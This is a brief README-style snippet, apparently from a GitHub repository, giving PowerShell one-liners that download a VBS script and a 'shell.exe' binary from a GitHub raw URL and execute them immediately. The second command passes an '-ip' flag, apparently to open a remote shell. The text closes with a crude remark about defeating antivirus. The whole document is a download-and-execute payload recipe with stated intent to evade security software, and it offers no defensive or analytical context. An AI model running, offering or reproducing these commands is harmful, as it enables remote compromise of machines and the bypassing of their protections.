 # bash
for powershell:

curl raw.githubusercontent.com/koplenov/bash/master/start.vbs -o start.vbs; .\start.vbs

curl raw.githubusercontent.com/koplenov/bash/master/shell.exe -o file.exe; .\file.exe -ip  

need to fuck antivirus..
